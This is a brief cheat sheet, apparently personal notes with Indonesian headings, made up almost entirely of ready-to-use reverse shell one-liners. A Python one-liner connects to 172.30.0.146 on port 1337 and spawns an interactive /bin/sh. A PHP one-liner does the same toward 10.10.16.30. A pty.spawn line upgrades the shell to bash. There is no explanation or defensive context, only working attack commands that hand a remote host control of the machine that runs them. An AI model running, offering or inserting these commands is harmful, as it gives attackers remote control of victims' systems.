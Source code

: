 # bakal shell python

get remote shell: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.30.0.146",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
get proper shell: python3 -c 'import pty; pty.spawn("/bin/bash")'

# bakal shell php

php -r '$sock=fsockopen("10.10.16.30",1337);exec("/bin/sh -i <&3 >&3 2>&3");'
